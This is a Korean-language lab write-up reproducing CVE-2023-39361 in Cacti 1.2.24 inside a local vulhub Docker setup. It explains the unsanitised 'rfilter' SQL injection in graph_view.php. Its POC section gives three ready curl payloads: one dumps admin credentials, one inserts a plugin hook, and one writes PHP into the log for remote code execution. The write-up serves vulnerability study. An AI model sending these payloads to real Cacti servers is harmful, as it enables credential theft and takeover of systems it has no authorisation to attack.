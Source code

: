 # Cacti graph_view.php SQL Injection Leads to RCE (CVE-2023-39361)

화이트햇스쿨 3기 - [양채한(@c6an) ](https://github.com/c6an)


### 요약

Cacti(운영 모니터링 도구)은 1.2.24이하에서는  CVE-2023-39361의  CVSS 점수가 9.8인 위험 심각도 등급을 가지고 있습니다.

게스트 사용자가 'rfilter'매개변수로 SGQ인젝션 공격이 가능하도록 하는 graph_view.php에 취약점이 존재합니다.


참고문헌:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 환경 설정

vulhub레포에서 fork 진행 후 본인 레포 클론하기
```
git clone https://github.com/본안ID/vulhub.git
cd vulhub/cacti/CVE-2023-39361
```

Cacti 1.2.24 서버를 시작합니다.

```
docker compose up -d
```

 Cacti 인터페이스에 접속할 수 있습니다. `http://your-ip:8080`.
  ![](1.png)
  기본 사용자 계정은 admin/admin입니다.
  성공 페이지가 나타날 때까지 "다음" 버튼을 반복해서 클릭하세요.
  
![](2.png)
설치 시작
![](3.png)
![](4.png)

CVE 취약점은 "로그인 없이" 접근하는 경우 발생.
guest유저가 해커인 상황을 위해서 `로그인` -> `Autentication`-> `guest`활성화 
Guest접근 권한을 열어줍니다.

![](5.png)

## 취약점 설명

취약점은 `graph_view.php` 에 존재합니다.
게스트 사용자는 인증 없이 `graph_view.php`에 접근이 가능하며, 활성화된 상태에서 취약점 악용 시 SQL인젝션 공격이 가능합니다.

`grow_right_pane_tree`함수는 `graph_view.php`파일에서 호출되는 취약점을 포합하고 있습니다. 사용자 입력은 `tree_content` 케이스 에서 `html_validate_tree_vars` 함수 를 통해 검증됩니다.

이후 `tree_id` 매개변수가 0보다 큰 경우 `grow_right_pane_tree` 함수가 호출됩니다 

![](v0.png)
![](1v.png)
![](v.png)
rfilter는 `grow_right_pane_tree`함수에서 바로 SQL퀴리 안에 들어가서 정규 검색 조건으로 사용합니다.

`graph_view.php`의 `html_validate_tree_vars` 함수가 정규 문접에 맞는 지 검사해주지만, SQL코드는 검사를 하지 않습니다.


```
function grow_right_pane_tree($tree_id, $leaf_id, $host_group_data) {
	// ...
	if (($leaf_type == 'header') || (empty($leaf_id))) {
		$sql_where = '';

		if (get_request_var('rfilter') != '') {
			$sql_where .= ' (gtg.title_cache RLIKE "' . get_request_var('rfilter') . '" OR gtg.title RLIKE "' . get_request_var('rfilter') . '")';
		}
		// ...

		$graph_list = get_allowed_tree_header_graphs($tree_id, $leaf_id, $sql_where);

}
```
## POC
SQL인젝션 관리자 정보를 탈취합니다.
```
curl "http:/your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa\"%20OR%20\"\"=\"((\"))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23"
```
graph_view.php 엔드포인트에 요청을 보내세요.

퀴리를 삽입합니다.
```
curl "http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa\"%20OR%20\"\"=\"((\"));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(\".\",\"login_before\",\"../log/cacti.log\",1);%23"

```
해당 파일을 가리키는 새로운 플러그인 후크를 추가합니다

로그에 PHP 코드를 작성합니다.
```
curl "http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa\"%20OR%20\"\"=\"((\"))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,\"<?php%20phpinfo();?>\",0x7e),null),8,9,10%23"

```
웹브라우저에서 `http://your-ip:8080` 접속 시 PHPINFO 함수가 실행되어 로그인 페이지에 액세스할 때 표시되며 원격 코드 실행이 성공적으로 이루어졌음을 확인합니다.

![](6.png)
